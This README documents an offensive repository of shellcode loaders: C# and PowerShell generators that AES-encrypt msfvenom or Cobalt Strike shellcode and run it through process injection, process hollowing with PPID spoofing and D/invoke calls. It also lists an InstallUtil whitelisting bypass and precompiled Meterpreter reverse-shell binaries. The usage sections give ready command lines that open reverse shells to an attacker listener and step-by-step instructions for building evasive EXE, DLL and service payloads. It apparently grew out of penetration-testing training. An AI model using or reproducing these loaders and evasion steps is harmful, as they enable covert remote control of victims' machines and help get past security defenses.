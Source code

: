 # Loaders - Shellcode

## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `powershell/Powerinject.py` | PS | Python3 script to generate .PS1 payloads that perform process injection. |
| `powershell/Powerhollow.py` | PS | Python3 script to generate .PS1 payloads that perform process hollowing with PPID spoofing |
| `formatters/port_ipeggs.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Powerinject` & `Powerhollow` |
| `bins/x64_met_staged_reversetcp_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversetcp_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer) |
| `bins/x64_met_staged_reversehttps_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversehttps_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer)  |
| `D_invoke/` | EXE | C# project that produces [D/invoke](https://github.com/TheWover/DInvoke) payloads |
| `formatters/formatshellcode.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Builder.exe` |

## [clinject](./clinject/Program.cs) and [clhollow](./clhollow/Program.cs)

These are C# projects that have been modified in order to accept command line `Lhost`, `Lport`, and processes for targeting.  This allows a user to drop the payload on whatever target machine without worry of needing to re-roll shellcode if the attackers IP changes, or the payload needs to be pointed at a different machine in order to hit a tunnel and egress the network.

This was accomplished by using Msfvenom to create shellcode and then locating the IP and port that was specified in the msfvenom command within the output shellcode.  These bytes were replaced with unique identifier strings.  This process was accomplished with the [Port_ipeggs.py](./formatters/portip_eggs.py) script, which finds the hex bytes for the specified IP/PORT combo in a `msfvenom -f csharp` output file and replaces them with `0x11,0x11,0x11,0x11` and `0x22,0x22` respectively.  

This shellcode was then AES encrypted and placed in the C# project.  On run time, the shellcode is decrypted and then the IP and port given by the attacker is converted to hex and placed in the proper location wthin the decyrpted shellcode as marked by the unique identifer strings.

> TODO: Original author notes that `port_ipeggs.py` "Does not work with all payloads. Confirmed works with reverse_tcp, confirmed DOES NOT work with HTTPS". This could be why the HTTPs payloads in `/bins/` don't work. FIX.

### clinject Usage
C# project source code for (IP + port + process) cli passed process injection payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clinject.exe 192.168.1.198 443 explorer
```

### clhollow Usage

C# project source code for (IP + port + process + parent-process) cli passed process hollowing payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clhollow.exe 192.168.1.198 443 c:\\windows\\system32\\svchost.exe explorer 
```

## [powerhollow.py](./powershell/powerhollow.py) and [powerinject.py](./powershell/powerinject.py)

These python scripts call `msfvenom` to generate shellcode, AES encrypt it, and then embed it within hardcoded powershell code in order to dynamically produce *.PS1* payloads according to user supplied options.  These *.PS1* payloads are modeled after the OSEP *.PS1* that utilizes dynamic lookup rather than `add-type` in order to prevent writing to disk when calling `csc`.  

`Powerinject.py` payloads succeed here; however I was unable to find a way to define the structs necessary for doing PPID spoofing with Process hollowing, so **add-type IS called in the `Powerhollow.py`** *.PS1* payloads, however this is only done for the necessesary structs and the `createproces()` Win32API. All other required API's are resolved dynamically.

Run the appropriate python script for the kind of payload you want to use and then place the produced files in your webserver directory and use the supplied PS one liner in order to call them.

## [D_invoke](./D_invoke/Builder/Program.cs)

C# project that produces D/invoke payloads (basic, injector, hollower + ppid spoof) in exe, dll, or service exe format.  Use pre-built builder.exe in the D_Invoke directory.

This is a package built using TheWover's project and research as the foundation (https://github.com/TheWover/DInvoke, https://thewover.github.io/Dynamic-Invoke/).

The inspiration for this project was to simplify the process of generating compiled C# payloads.  By using this project, a user never need open visual studio when creating payloads.

### General Usage Steps

1. Generate shellcode
    - This was built with msfvenom shellcode in c# as the primary input, however it was retooled to take .bin files during some testing with CobaltStrike
    - i.e. it takes C# & binary input
2. Format the shellcode for use with `Builder.exe` using the [formatshellcode.py](./formatters/formatshellcode.py) script (for msfvenom shellcode)
3. Transfer formatted shellcode to your Windows dev machine
4. Run builder.exe with the proper switches
5. Voila. You have your AES encryped shellcode D/invoke payload in whatever format and technique you want!

### Details 

The foundation of this package is `Builder.exe`.  This application allows the user to specify several options to include:

1. Format of payload (`/F:`)
    - EXE, DLL, OR Service EXE
2. Technique (`/T:`)
    - Local injection
    - Remote injection
    - Process hollowing with PPID spoofing
3. Shellcode file (`/S:`)
    - File containing parsed shellcode
4. Process name (`/P:`)
    - Process to corrupt for injection
        - Must be pretty name, e.g. `explorer`
    - Process to spawn for hollowing
        - Must be absolute path, e.g. `c:\\windows\\system32\\svchost.exe` (escape backslashes)
5. Parent Process (`/X:`)
    - Process for PPID spoofing with process hollowing technique
        - Must be pretty name, e.g. `explorer`
6. Architecture (`/A:`)
    - x86 OR x64

After the user specifies all the above options, a "`template.cs`" file within the selected format project (exe, dll, service) will be edited and the payload pieced together.  `Builder.exe` has hardcoded within it the necessary code for the various options (d/invoke statements for hollowing w/ ppid spoofing for example) that will be placed into the template file in the proper manner in the given format (exe, dll, service exe).

Builder will AES-256 encrypt the shellcode (*generating a new key and IV each time it is run*) and embed the encrypted shellcode within the template file. Once the template file is complete, it will be saved over `program.cs` in the respective format project.  MSBuild will then be called on the updated `program.cs` file in order to create the final payload in exe, dll, or service exe format.

### Limitations

The produced payloads use D/invoke statements for most, *but not all* of the API calls. Certain simple ones (As well as certain complex ones in the process hollowing payload) still use `p/invoke`. An `Installutil` bypass is baked into each *.exe* payload for use in case application whitelisting is in place.

Additionally, direct *syscalls* have not been implemented in this project. It is maybe a direction for further work. However given that certain EDR's don't even hook userland syscalls anymore, I haven't done this yet as I need to do more research on the correct direction to go in the future. 

Note that this tool was developed for personal use, not production.  As such there are some shortcomings in that there are hardcoded paths where `Builder.exe` expects to find things:
1. `Builder.exe` should only be run from within the d/invoke folder
    - i.e. `builder.exe` should be in the same folder as the dll, exe, and service folders as it is on the hosted repo
2. Additionally, MSBuild is hardcoded for VS2019
    - If you are utilizing a different version, you will need to edit the source code of `Builder.exe` and update it with the path to MSBuild within your version.

## `/bins/`

This directory just holds precompiled binaries created with the `clhollow` and `clinject` projects using `windows/x64/meterpreter/reverse_https` and `windows/x64/meterpreter/reverse_tcp` payloads.
